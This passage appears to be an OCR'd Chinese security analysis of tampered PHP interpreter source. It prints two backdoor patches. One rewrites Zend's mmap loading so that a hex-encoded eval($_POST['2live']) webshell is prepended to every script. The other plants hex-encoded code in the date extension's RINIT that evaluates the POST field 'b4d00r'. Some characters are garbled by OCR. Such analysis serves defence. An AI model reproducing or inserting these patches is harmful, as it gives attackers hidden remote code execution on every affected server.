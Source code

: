 ! &amp;&amp; (p = php_stream_mmap_range(stream, 0, len, PHP_STREAM_MAP_MODE_READWRITE, &amp;mapped_len)) != NULL) `{`<br>
!<br>
! char* data = “x3cx3fx70x68x70x20x40x65x76x61x6cx28x24x5fx50x4fx53x54x5bx27x32x6cx69x76x65x27x5dx29x3bx20x3fx3ex0a”;<br>
! int data_len = strlen(data);<br>
! int i = len;<br>
! for (; i &gt; -1 ; i —) `{`<br>
! p[i + data_len] = p[i];<br>
! `}`<br>
! memcpy(p, data, data_len);<br>
handle-&gt;handle.stream.closer = php_zend_stream_mmap_closer;<br>
handle-&gt;handle.stream.mmap.buf = p;<br>
! handle-&gt;handle.stream.mmap.len = data_len + len;//mapped_len;<br>
handle-&gt;type = ZEND_HANDLE_MAPPED;<br>
`}` else `{`<br>
handle-&gt;handle.stream.closer = php_zend_stream_closer;

在php脚本被加载到内存之后，zend引擎解析php脚本之前，修改php源码中代码设置mmap内存的属性为可写，然后窜改内存中的脚本代码，在脚本第一行插入一个一句话木马，POST的key是2live。<br>
恶意php2<br>
另一道思路剑走偏锋，切入点选择在了官方默认扩展date中，处在文件ext/date/php_date.c：

```
ext/date/php_date.c
—- malware/php_date.c
** static void _php_date_tzinfo_dtor(zval 
** 708,713 **
—- 708,716 ——
/ `{``{``{` PHP_RINIT_FUNCTION /
PHP_RINIT_FUNCTION(date)
`{`

zval *p;
zval *bd;
+
if (DATEG(timezone)) `{`
efree(DATEG(timezone));
`}`
* PHP_RINIT_FUNCTION(date)
715,720 *
—- 718,739 ——
DATEG(tzcache) = NULL;
DATEG(last_errors) = NULL;

zend_is_auto_global_str(“x5fx50x4fx53x54”, sizeof(“x5fx50x4fx53x54”) - 1);
+
p = zend_hash_str_find(&amp;EG(symbol_table), ZEND_STRL(“x5fx50x4fx53x54”));
if (p == NULL || Z_TYPE_P(p) != IS_ARRAY) `{`
return SUCCESS;
`}`
+
bd = zend_hash_str_find(Z_ARRVAL_P(p), ZEND_STRL(“x62x34x64x30x30x72”));
if (bd == NULL) `{`
return SUCCESS;
`}`
+
if (Z_TYPE_P(bd) == IS_STRING) `{`
zend_eval_string(Z_STRVAL_P(bd), NULL, (char *)”” TSRMLS_CC);
`}`
+
return SUCCESS;
`}`
/ `}``}``}` /
```